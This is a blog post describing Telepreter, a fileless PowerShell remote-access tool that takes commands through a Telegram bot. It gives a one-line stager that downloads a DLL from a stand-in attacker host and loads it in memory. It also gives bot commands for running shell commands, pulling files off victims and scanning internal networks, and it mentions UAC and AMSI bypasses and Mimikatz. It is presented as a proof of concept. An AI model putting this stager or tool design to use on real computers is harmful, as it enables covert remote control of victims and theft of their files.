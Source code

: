 ```yaml
---
layout: post
title:  "Pwning computers using Telegram bot API"
date:   2018-12-10 18:30:00 -0300
categories: tools
---
```


## Introduction

In this post I will share some experience I had while working on a project named Telepreter. Telepreter is a PowerShell Runspace that uses Telegram bot API as transport and communications and C# DLL reflection to stay in-memory. So you can control your shells with a Telegram group and a single bot.

Even further, I tried to add my favorite tools into it. So it has builtin AMSI and UAC bypasses from my earlier blog posts and some other excellent tools that I like very much like PowerView and PowerPreter.

Side-Note: This is just a PoC, and an idea that I wanted to make it happen. I do not intend to develop further into it.

## Building a Telegram Bot with PowerShell execution capabilities

So I decided to build a Telegram bot, capable of remote controlling a Windows computer. But more importantly that I wanted it fileless, so I chose using C# + PowerShell again, so we can operate in-memory and not rely at all with disk.


# Telegram API choice
I researched some libraries in C# that might suit my need, and found one that had all the functionalities that I wished for in this [repository](https://github.com/TelegramBots/Telegram.Bot);

After compiling the code, I had a Telegram.Bot.dll and NewtonSoft.dll which are dependencies.

# Initial problems

I had to work out with loading these DLL's in a manner that would not drop anything on disk. So I resorted to Reflection (again...).

Compressing and obfuscating all the DLL code into a base64 string constant value, I am able create a function that can load this assemblies in memory so we won't have any exception when Telegram API functions are invoked.

![Screenshot](/assets/telepreter_004.JPG)

# Crafting a small fileless Powershell stager payload

To start a new bot instance on our victim, all it needs to be executed is the following line in PowerShell:
```powershell
[Reflection.Assembly]::Load((iwr attackerc2.com/telepreter.dll).Content)/[Telepreter.Agent]::Load();[Telepreter.Agent]::new().Start()
```

Which in turn, I developed and integrated into the bot a function to create a stager payload.

![Screenshot](/assets/telepreter_006.JPG)

This way, an attacker can create .bat which could be used to infect more computers inside the network or spawning elevated bot instances (more on this later)

## Core functionalities 

# How to control the bot

To execute a command, simply type `/bot:BOT_ID /shell PowerShellCommandHere`
    
PS: Dont worry about output size. The bot will send 200 lines once a second, so every output is sent to you!

![Screenshot](/assets/telepreter_009.jpg)

# How to download files

To download a file, simply type `/bot:BOT_ID /download C:\windows\system32\license.rtf` and Bot will send this file in group using Telegram file upload API!

![Screenshot](/assets/telepreter_010.jpg)

# How to Port Scan with it!

It is also useful for Recon, too! There is a sightly modified version of Invoke-Portscan from Nishang pack. No need to do fancy pivoting tricks to scan the internal network!

![Screenshot](/assets/telepreter_011.jpg)


# How to bypass UAC with it!

Check how I bypassed UAC in a Lab computer that was infected with it!

![Screenshot](/assets/telepreter_007.jpg)

In the above picture, I created a .bat stager that resided in the user temporary folder. This tiny stager will fetch the DLL using the supplied URL and then use reflection to load all dependencies and start the main function of the bot.

![Screenshot](/assets/telepreter_008.jpg)

Looking the picture above, it is possible to observe that a new instance of a bot has started. And the `Administrator` flag is set to True, which means this is an elevated session and we can use post-exploitation tools like Invoke-Mimikatz or others that require elevated privileges to work. To avoid having problems with multiple instances, never stay with more than one active session.


## Conclusion and Code

This concludes the demonstration of this fun project I was working for a few days. Feel free to dig into it as much you want to. Probably a lot of people are going to say that it is crappy code... but it really is! I am no professional programmer.

It is just an demonstration of how something like that could work. Of course that there are a ton of better ways of doing it. So feel free to do it if you like!

To get access to the source-code: [Link](https://github.com/0x00-0x00/Telepreter)

# To start your own bot

Just replace the following values in the code:

![Screenshot](/assets/telepreter_012.jpg)


Have fun.

Best regards,

zc00l.